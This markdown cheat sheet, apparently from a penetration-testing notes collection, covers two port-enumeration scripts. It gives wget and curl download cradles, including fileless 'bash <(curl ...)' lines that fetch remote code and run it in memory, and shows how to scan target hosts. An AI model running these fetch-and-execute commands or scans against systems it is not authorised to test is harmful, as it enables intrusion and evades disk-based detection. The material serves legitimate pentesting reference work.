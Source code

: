 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - networking
  - offensive-tools
  - linux
---
```

# Scripts

## 01 - Port enumeration

### 1.1 - Download Cradle

```
$ wget --no-hsts https://raw.githubusercontent.com/IvanGlinkin/Port-enumeration/refs/heads/master/port-enum.sh

$ curl -o port-enum.sh https://raw.githubusercontent.com/IvanGlinkin/Port-enumeration/refs/heads/master/port-enum.sh
```

### 1.2 - Usage

```
$ chmod +x port-enum.sh

$ ./port-enum.sh <IP> | tee output.txt
```

## 02 - LOLNetScan

### 2.1 - Download Cradle

Execute the scanner on memory without touching the disk.

```
$ bash <(wget --no-hsts -qO- https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan) -host <target_IP>

$ bash <(curl -sSL https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan) -host <target_IP>
```

Drop the port scanner on disk.

```
$ wget --no-hsts https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan

$ curl -o lolnetscan https://raw.githubusercontent.com/ousbaailyas/lolnetscan/master/lolnetscan
```

### 2.2 - Usage

Scan single target only TCP ports.

```
$ chmod 755 lolnetscan

$ ./lolnetscan -host <target_IP> -p <PORT_1>,<PORT_n>
```

Scan single target only UDP ports.

```
$ ./lolnetscan -u -host <target_IP> -p <PORT_1>,<PORT_n>
```

---
## References

- [IvanGlinkin: Port enumeration](https://github.com/IvanGlinkin/Port-enumeration)

- [snakeeater0x01: lolnetscan](https://github.com/snakeeater0x01/lolnetscan/blob/master/lolnetscan)